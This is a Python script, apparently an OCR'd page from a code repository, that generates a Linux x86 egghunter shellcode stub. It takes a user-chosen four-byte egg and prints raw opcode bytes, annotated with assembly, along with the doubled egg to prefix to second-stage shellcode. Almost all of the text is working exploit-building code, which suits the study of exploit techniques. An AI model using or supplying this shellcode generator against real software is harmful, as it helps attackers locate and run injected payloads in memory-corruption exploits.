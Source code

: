 ```python
    for byte in data:
        formatted_byte = '\\x{0:0{1}X}'.format(byte, 2)
        hex_escaped += formatted_byte
    return hex_escaped


def main():
    if len(sys.argv) != 2:
        print('Usage: %s <four_byte_hex_escaped_egg_of_choice>' % sys.argv[0])
        print('Egg must be four bytes, formatted like so: \\x41\\x42\\x43\\x44')
        raise SystemExit

    egg = process_shellcode(sys.argv[1])
    if len(egg) != 4:
        print('Egg must be four bytes, formatted like so: \\x41\\x42\\x43\\x44')
        raise SystemExit


    egg = bytearray(egg)

    real_egg = egg[::-1] + egg[::-1]

    EGGHUNTER = (bytearray("\x31\xc9"  # xor ecx, ecx
                           "\xf7\xe1"  # mul ecx
                           "\x66\x81\xca\xff\x0f"  # <egghunt_loop_start:> or dx, 0xfff
                           "\x42"  # <scasd_zero:> inc edx
                           "\x8d\x5a\x04"  # lea ebx, [edx+0x4]
                           "\x6a\x21"  # push 0x21
                           "\x58"  # pop eax
                           "\xcd\x80"  # int 0x80
                           "\x3c\xf2"  # cmp al, 0xf2
                           "\x74\xee"  # je egghunt_loop_start
                           "\xb8", "iso-8859-1") + egg[::-1] +  # mov eax, <egg>
                 bytearray("\x89\xd7"  # mov mov edi, edx
                           "\xaf"  # scasd eax
                           "\x75\xe9"  # jne scasd_zero 
                           "\xaf"  # scasd eax
                           "\x75\xe6"  # jne scasd_zero
                           "\xff\xe7",  # jmp edi
                           "iso-8859-1"
                           ))
    print("Your egg is: %s" % c_format_binary_data(egg))
    print("Your egghunter's length is %d" % len(EGGHUNTER))
    print("Your egghunter is:\n%s" % c_format_binary_data(EGGHUNTER))
    print("Please prepend your second stage shellcode with the following bytes: %s" %
          c_format_binary_data(real_egg))

if __name__ == '__main__':
    main()
```
